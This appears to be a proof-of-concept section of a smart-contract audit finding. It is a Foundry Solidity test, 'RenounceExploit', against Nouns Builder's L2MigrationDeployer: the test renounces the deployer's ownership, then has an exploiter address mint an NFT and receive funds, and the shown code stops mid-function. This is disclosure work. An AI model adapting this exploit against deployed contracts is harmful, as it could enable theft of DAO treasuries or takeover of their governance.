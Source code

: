 POC:
To run: place the code in a file under the test folder and run with `forge test -vvv --match-test testNounsBuilderExploit`
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.16;

import { NounsBuilderTest } from "./utils/NounsBuilderTest.sol";
import { MetadataRendererTypesV1 } from "../src/token/metadata/types/MetadataRendererTypesV1.sol";
import { AuctionTypesV1 } from "../src/auction/types/AuctionTypesV1.sol";
import { L2MigrationDeployer } from "../src/deployers/L2MigrationDeployer.sol";
import { MerkleReserveMinter } from "../src/minters/MerkleReserveMinter.sol";
import { MockCrossDomainMessenger } from "./utils/mocks/MockCrossDomainMessenger.sol";
import { IToken, Token } from "../src/token/Token.sol";
import { TokenTypesV1 } from "../src/token/types/TokenTypesV1.sol";
import { MetadataRenderer } from "../src/token/metadata/MetadataRenderer.sol";
import { IAuction, Auction } from "../src/auction/Auction.sol";
import { IGovernor, Governor } from "../src/governance/governor/Governor.sol";
import { ITreasury, Treasury } from "../src/governance/treasury/Treasury.sol";
import { Ownable } from "../src/lib/utils/Ownable.sol";
import {console2} from "forge-std/console2.sol";

contract RenounceExploit is NounsBuilderTest {

    MockCrossDomainMessenger xDomainMessenger;
    MerkleReserveMinter minter;
    L2MigrationDeployer deployer;
    MerkleReserveMinter.MerkleMinterSettings minterParams;
    bytes32 internal nextUser = keccak256(abi.encodePacked("user address"));

    uint256 public constant TimeLock = 1 days;
    uint256 public constant VoteDelay = 1 seconds;
    uint256 public constant VotePeriod = 1 days;

    function setUp() public virtual override {
        super.setUp();

        minter = new MerkleReserveMinter(address(manager), rewards);
        xDomainMessenger = new MockCrossDomainMessenger(founder);
        deployer = new L2MigrationDeployer(address(manager), address(minter), address(xDomainMessenger));
    }


    //Main Exploit Function 
    function testNounsBuilderExploit() public {

        //deploy/migrate dao using L2MigrationDeployer 
        deploy();

        //renounce ownership
        vm.startPrank(address(xDomainMessenger));
        deployer.renounceOwnership();
        vm.stopPrank();


        //Exploiter mints 1  NFT (first to claim of the merkle minters)
        bytes32 proof = bytes32(0xd77d6d8eeae66a03ce8ecdba82c6a0ce9cff76f7a4a6bc2bdc670680d3714273);
        address claimerExploiter = address(0xC1);
        merkleMint(proof, claimerExploiter, 5);
        deal(claimerExploiter,10000 ether);

```